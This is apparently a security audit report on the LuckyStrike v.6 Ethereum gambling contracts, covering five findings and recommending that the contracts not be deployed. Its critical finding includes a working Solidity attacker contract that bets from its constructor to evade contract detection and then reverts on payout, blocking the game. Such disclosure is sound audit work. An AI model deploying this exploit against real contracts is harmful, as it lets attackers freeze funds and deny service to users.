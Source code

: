 # LuckyStrike v.6 Security Audit Report

# 1. Summary

[LuckyStrike v.6](https://lucky-strike.io/game/) smart contract security audit report performed by [Callisto Security Audit Department](https://github.com/EthereumCommonwealth/Auditing)

> Lucky Strike, based fully in Ethereum smart-contract, is bringing the core philosophy of blockchain to the gambling industry – enhancing it with an ICO model we’re calling ‘Bet & Own.’

https://lucky-strike.io/game/#/

# 2. In scope

1. [LuckyStrike](https://ropsten.etherscan.io/address/0x1a77110391c07d3d67c8c55c6114a858cb45bb26#contracts)
2. [LuckyStrikeTokens](https://ropsten.etherscan.io/address/0xc3e2b080aefc0d9d5b5e30614e892b5fd1276777#contracts)

# 3. Findings

In total, **5 issues** were reported including:

- 1 Critical severity issues.

- 1 medium severity issues.

- 1 low severity issues.

- 1 notes.

- 1 owner privileges (the ability of an owner to manipulate contract, may be risky for investors).

## 3.1. An attacker can block the contract

### Severity: critical

### Description

From previous audit:

> In current version the draw takes place by queue and each bet is played out one by one. In case of victory, the winner is paid a reward by `transfer` function. The peculiarity of this function is that in the case of `throw` on the recipient's side the entire transaction will be rollbacked. `throw` can be done intentionally by an attacker, if the recipient is another smart contract. Thus, the attacker can block the entire contract, making it impossible to place bets and draws.

`isContract` function is not prevented this vulnerability because `extcodesize(address)` worked only for already deployed contracts. If an external function(`placeABet()`) is called from the `constructor` of an malicious contract then `extcodesize(_attacker)` is zero.

Simple example of an Attackers contract:

```Solidity
contract Attacker {
    LuckyStrike public ls = LuckyStrike(address(0xa819effd0a9c86619953a4b979079e9ba4dca3f2));
    bool public blockMode = true;

    constructor() public payable {
        ls.placeABet.value(msg.value)();
    }
    
    function turnBlockModeOn() public {
        blockMode = true;
    }
    
    function turnBlockModeOff() public {
        blockMode = false;
    }
    
    function () payable external {
        if(blockMode) {
            revert(); // LuckyStrike blocked;
        }
    }
}
```

#### Code snippet

* [LuckyStrike, lines 1762, 1995, 1923](https://ropsten.etherscan.io/address/0x1a77110391c07d3d67c8c55c6114a858cb45bb26#contracts)

#### Recommendation

Use `require(msg.sender == tx.origin)` to prevent smart contract calling.

## 3.2. Truncated Value (Invest & Play)

### Severity: medium

### Description

Following the answer to this issue, the tokens are said to be like a bonus for the players but the amount to be invested is subtracted from `msg.value` ("bet amount = msg.value - invested amount") when invest and play is called meaning that this issue is still applicable.

Please refer to the [previous audit issue description](https://gist.github.com/RideSolo/67652c80c78194296ae24affd8779db2#31-truncated-value-invest--play) to solve this error.

## 3.3. Sum Validation

### Severity: note

### Description

Inside `allocateSum` member of the game contract contain `sumValidationPassed` variable that is used to check if the allocated sum values are correct however no action is taken following the result of it.

### Code snippet

```
        bool sumValidationPassed = false;
        
        if (
            (jackpotsSumAllocation[1] +
            jackpotsSumAllocation[2] +
            jackpotsSumAllocation[3] +
            jackpotsSumAllocation[4] +
            incomeSum +
            refSum +
            payToWinner) == _sum) {
            sumValidationPassed = true;
        }
```

## 3.4. Owner Privileges

### Severity: owner privileges
 
### Description:

- `adjustAllocation` function allows the owner to reset the rates of the different jackpots and income rate as wished.
- 70M tokens are first distributed by the owner that represent 10500 ether, the token sale hardcap is 4500 ether,  meaning that the developers allow them self more than a third of the total income of the bet game, investors have to be aware of such usage.

### Code snippet

- [Line 1590-1628](https://ropsten.etherscan.io/address/0x1a77110391c07d3d67c8c55c6114a858cb45bb26#contracts)
- [Line 159-162](https://ropsten.etherscan.io/address/0xc3e2b080aefc0d9d5b5e30614e892b5fd1276777)


## 3.5. No event call

### Severity: low

### Description

According to ERC20 standard when coins are minted(or burned) a Transfer event should be emitted.
In function `mint(address to, uint256 value, uint256 _invested)` in line 339 in [token contract](https://ropsten.etherscan.io/address/0x28bab51604628323fc46459b2f90590597ba060d#code) there is no `Transfer` event call that funds transferred from zero address to `to` address.

```solidity
         balanceOf[to] = balanceOf[to].add(value);
```
Also `Transfer` event has not been called in function `init(address luckyStrikeContractAddress)` in line 142 in [token contract](https://ropsten.etherscan.io/address/0x28bab51604628323fc46459b2f90590597ba060d#code) after setting balances of addresses in lines 159-162.
```solidity
        balanceOf[0x7E6CdeE9104f0d93fdACd550304bF36542A95bfD] = 33040000;
        balanceOf[0x21F73Fc4557a396233C0786c7b4d0dDAc6237582] = 8260000;
        balanceOf[0x23a91B45A1Cc770E334D81B24352C1C06C4830F6] = 26600000;
        balanceOf[0x961f5a8B214beca13A0fdB0C1DD0F40Df52B8D55] = 2100000;
```

# 4. Conclusion

The audited smart contract must not be deployed. Reported issues must be fixed prior to the usage of this contract.

# 5. Revealing audit reports

https://gist.github.com/yuriy77k/c4ab2c36433dd229e223149b296ed89f

https://gist.github.com/yuriy77k/1d3b7b4f7a2f3be02f7068944281315c

https://gist.github.com/yuriy77k/1ca25cd18a61ab86dfcf4e0a76b03580
